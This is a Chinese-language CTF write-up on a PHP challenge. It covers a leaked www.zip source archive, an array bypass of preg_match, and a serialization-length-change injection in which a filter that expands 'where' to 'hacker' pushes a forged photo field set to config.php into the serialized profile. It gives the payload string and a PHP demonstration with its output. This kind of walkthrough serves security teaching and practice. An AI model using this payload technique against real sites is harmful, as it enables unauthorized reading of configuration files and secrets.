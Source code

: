 考察知识点：

1.数组绕过preg_match()正则表达式

2.改变序列化字符串长度导致反序列化漏洞

3.www.zip源码泄露



# 1.ctf-scan扫描发现www.zip得到网站源码



# 2.代码审计

大体看了一下发现config.php中存在flag

![](images/DA455B9C267F41D29E0912E853592202clipboard.png)



# 3.seay扫描代码

![](images/4349AF923DCE4D04B15D41A9AC4449FEclipboard.png)



frofile.php可能存在文件读取漏洞可以得到config.php中的flag



# 4.我们只要能控制$peofile['photo']=config.php;即可读取到flag

![](images/A447E3866E904DA2B2BBE5EBADFFF61Cclipboard.png)



# 5.查看$peofile['photo']的值来自何方



```javascript
profile.php

$username = $_SESSION['username'];
$profile=$user->show_profile($username);
```



```javascript
class.php

public function show_profile($username) {
   $username = parent::filter($username);

   $where = "username = '$username'";
   $object = parent::select($this->table, $where);
   return $object->profile;
}
```



所以明白程序逻辑为：根据用户名从数据库中查取$peofile的值



# 6.查看数据库中的$profile如何赋值

```javascript
update.php

$profile['phone'] = $_POST['phone'];
$profile['email'] = $_POST['email'];
$profile['nickname'] = $_POST['nickname'];
$profile['photo'] = 'upload/' . md5($file['name']);

$user->update_profile($username, serialize($profile));
```



# 7.考虑sql注入更改数据库内容photo='config.php'

但是过滤很严格，无法sql注入

```javascript
class.php

public function filter($string) {
   $escape = array('\'', '\\\\');
   $escape = '/' . implode('|', $escape) . '/';
   $string = preg_replace($escape, '_', $string);

   $safe = array('select', 'insert', 'update', 'delete', 'where');
   $safe = '/' . implode('|', $safe) . '/i';
   return preg_replace($safe, 'hacker', $string);
}
```





# 8.继续考虑其他方法

发现updatae.php中有一个serialize



![](images/20C04B2A88054FF59427436AFF788C44clipboard.png)



frofile.php中有一个unserlize

![](images/F9E1FF9193104B31953386DD467DC146clipboard.png)



此时想到：.改变序列化字符串长度导致反序列化漏洞

只要能随意控制nickname的值，我们就可以利用该漏洞控制photo的值



改变序列化字符串长度导致反序列化漏洞简介：

当反序列化时，会自动忽略能正常序列化字符串后面的字符串

![](images/2AFF690A8CBC45E791E548102DBC6F10clipboard.png)

可以看到ser和ser3的值反序列化后的值是一样的。



# 9.改变序列化字符串长度导致反序列化漏洞在该网站的利用

9.1 自定义nickname的值，虽然nickname有限制但是可以采用数组绕过

![](images/0641482F4CEF4C7B948B106481EEA10Fclipboard.png)





9.2 发现filter能够将白名单中的值替换为hacker

![](images/2F3359C800E24819912ED15F98E5ABB5clipboard.png)



# 10. 所以构造payload:

```javascript
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
where";}s:5:"photo";s:10:"config.php
```



![](images/3866BA486C584AE99E08214AE4DEF80Eclipboard.png)



访问profile.php即可得到flagconfig.php的base64编码

![](images/78DC838750E54029965F9E4841F00750clipboard.png)



# 11.关于payload的解释



```javascript
$nickname='wherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewhere";}s:5:"photo";s:10:"config.php';

$ser=serialize($nickname);

echo "ser: ".$ser;
echo "\n";

$ser1=str_replace("where","hacker",$ser);
echo "ser1: ".$ser1;
echo "\n";
var_dump(unserialize($ser1));


输出：
ser: s:186:"wherewherewherewherewherewherewherewherewherewherewherewherewher
ewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewherewhere";}s:5:"photo";s:10:"config.php";

ser1: s:186:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhacke
rhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker
hackerhackerhackerhackerhackerhackerhackerhackerhacke
r";}s:5:"photo";s:10:"config.php";

H:\WWW\www\exp.php:28:
string(186) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhacker
hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker
hackerhackerhackerhackerhackerhackerhackerhackerhacker"

可见有34个where替换为hacker序列化数据增加了34个字节的长度刚好把,
;}s:5:"photo";s:10:"config.php" 挤出了nickname的序列化数据而,
;}s:5:"photo";s:10:"config.php" 成为了下一个数据photo的序列化数据,
当反序列化时nickname=hacker....
而photo=config.php
此时读取到了flag

```



